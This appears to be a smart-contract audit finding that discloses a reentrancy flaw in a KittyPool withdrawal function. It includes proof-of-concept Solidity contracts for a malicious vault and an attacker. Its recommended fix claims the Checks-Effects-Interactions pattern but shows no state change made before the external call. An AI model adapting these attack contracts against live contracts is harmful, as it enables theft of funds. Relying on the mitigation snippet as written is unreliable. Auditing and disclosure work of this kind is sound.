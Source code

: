 ### [H-2] Reentrancy Vulnerability in `KittyPool::whiskdrawMeowllateral`

**Description**: The `KittyPool::whiskdrawMeowllateral` function calls an external contract and then performs a state-changing operation. This could lead to a reentrancy attack where the external contract calls back into the KittyPool contract before the state change is completed.

**Impact**: An attacker could drain funds or cause other unexpected behavior by reentering the contract.

**Proof of Concept**: An attacker could create a malicious KittyVault contract that reenters the KittyPool contract:

Use the below contract as Malicious Vault Contract:-

```javascript
    contract MaliciousKittyVault is KittyVault {
        KittyPool public kittyPool;

        constructor(address _kittyPool) KittyVault(address(0), address(this), address(0), address(0), address(0), address(0)) {
            kittyPool = KittyPool(_kittyPool);
        }

        function executeWhiskdrawal(address _user, uint256 _cattyNipToWithdraw) external override {
            kittyPool.whiskdrawMeowllateral(address(this), 1);
        }
    }
```

Use the below contract as Attacker Contract:-

```javascript
    contract AttackKittyPool {
        KittyPool public kittyPool;
        MaliciousKittyVault public maliciousVault;

        constructor(address _kittyPool) {
            kittyPool = KittyPool(_kittyPool);
            maliciousVault = new MaliciousKittyVault(address(kittyPool));
        }

        function attack() public {
            // Register the malicious vault
            kittyPool.meownufactureKittyVault(address(maliciousVault), address(0));
            // Call whiskdrawMeowllateral to start the reentrancy attack
            kittyPool.whiskdrawMeowllateral(address(maliciousVault), 1);
        }
    }
```

**Recommended Mitigation**: Use the Checks-Effects-Interactions pattern to update the state before calling external contracts.

```javascript
    function whiskdrawMeowllateral(address _token, uint256 _ameownt) external tokenExists(_token) {
        require(_hasEnoughMeowllateral(msg.sender), KittyPool__NotEnoughMeowllateralPurrrr());
        IKittyVault(tokenToVault[_token]).executeWhiskdrawal(msg.sender, _ameownt);
    }
```

